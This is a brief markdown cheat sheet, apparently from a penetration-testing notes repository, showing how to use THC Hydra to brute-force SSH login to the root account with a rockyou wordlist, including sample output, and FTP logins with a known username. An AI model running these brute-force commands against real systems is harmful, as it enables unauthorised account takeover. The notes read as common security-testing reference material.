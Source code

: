 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH Brute Force
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP Brute Force
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`
